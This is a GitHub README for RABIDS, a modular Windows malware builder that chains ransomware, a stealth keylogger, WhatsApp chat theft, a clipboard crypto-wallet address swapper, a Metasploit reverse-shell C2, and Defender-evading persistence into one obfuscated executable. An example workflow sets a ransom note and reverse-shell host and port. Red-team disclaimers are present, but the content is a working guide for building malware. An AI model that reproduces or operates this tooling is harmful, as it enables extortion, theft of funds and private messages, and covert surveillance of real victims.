 ## What's New

### VERSION 0.1.3
- **New Module: `interfaceplug/ripper`** - Clipboard wallet address ripper
- **Features:**
  - Monitors clipboard for copied wallet addresses (Bitcoin, Ethereum, BEP-20, Solana)
  - Automatically replaces detected wallet addresses with user-configurable predefined addresses
  - Predefined addresses for each chain can be set using the `set` command before build

### VERSION 0.1.2
- **New Module: `daemon/alt`** - Advanced keylogger with screenshot capability
- **Features:**
  - Stealthy keylogging triggered by '@' key press
  - Automatic screenshot capture on trigger
  - Hidden file storage in `.alt` folder in Downloads with random filenames

### VERSION 0.1.1
- **New Module: `daemon/chatwipe`** - WhatsApp chat extractor that automatically extracts the chats from a user's WhatsApp Web session in Google Chrome
- **Features:**
  - Automatically detects Chrome installation and WhatsApp Web login
  - Extracts both incoming and outgoing messages with timestamps

---

## Overview
**RABIDS** Roving Autonomous Bartmoss Interface Drones is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. RABIDS is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

---

## Features

- **Modular Payloads:** Chain multiple modules (ransomware, persistence, C2, etc.) into a single EXE.
- **Customizable Options:** Configure module and build options (e.g., ransom note, C2 port, EXE name).
- **In-Memory Execution:** Optional Rust loader for stealthy, in-memory payload delivery.
- **Obfuscation Support:** Optional payload obfuscation via LLVM and Rust.
- **Cross-Platform Build:** Uses Go and Rust for robust Windows payloads.
- **Fast Build Pipeline:** Output is saved to the `.LOOT` directory.

---

## Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/sarwaaaar/RABIDS.git
   cd RABIDS
   ```
2. **Install Python 3.8+**
   ```bash
   python3 --version
   ```
3. **Install system dependencies:**
   - Go (for module compilation)
   - Rust (for in-memory loader)
   - **Docker** (required for payload obfuscation)
     - Pull the required Docker image for obfuscation:
       ```bash
       docker pull ghcr.io/joaovarelas/obfuscator-llvm-16.0:latest
       ```
     - This image is used to obfuscate Rust payloads using LLVM during the build process.
   - On macOS:
     ```bash
     brew install go rust
     ```
   - On Linux:
     ```bash
     sudo apt install golang rustc cargo
     ```

---

## Usage

Start the tool:
```bash
python3 main.py
```

### Command Reference

- `use <module>` — Add a module to the build chain
- `set <OPTION> <VALUE>` — Set build/module options
- `show modules` — List available modules
- `show options` — Show current build/module options
- `build` — Build the final EXE payload
- `clear` — Clear selected modules
- `delete` — Remove a module from the chain
- `exit` — Exit the tool

**For detailed documentation on each command and advanced usage, see the [RABIDS Wiki](https://github.com/sarwaaaar/RABIDS/wiki).**

### Example Workflow
```
> show modules
> use daemon/bartmoss
> set NOTE "Your files have been encrypted! Contact evil@domain.com."
> use daemon/spider
> set LHOST 192.168.1.10
> set LPORT 4444
> build
```
- The final EXE will be saved in the `.LOOT` directory.

---

## Available Modules

| Module                   | Description                                                        |
|--------------------------|--------------------------------------------------------------------|
| daemon/filedaemon        | Normal C2 server to receive data                                   |
| daemon/spider            | Metasploit C2 server (reverse shell/payload delivery)              |
| daemon/bartmoss          | Ransomware builder                                                 |
| daemon/chatwipe          | WhatsApp chat extractor   |
| daemon/alt               | Advanced keylogger with screenshot capability                      |
| interfaceplug/blackout   | Screen blackout utility                                            |
| interfaceplug/suicide    | Block input (DoS)                                                  |
| interfaceplug/ripper     | Clipboard wallet address ripper (BTC, ETH, BEP-20, SOL)            |
| quickhack/ping           | Sends back user info to the C2 server                              |
| quickhack/icepick        | Adds EXE to persistence and adds exclusion to Windows Defender      |

---

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

---

## Legal Disclaimer

RABIDS is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

---

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

---

## License

MIT License. See the `LICENSE` file for details.
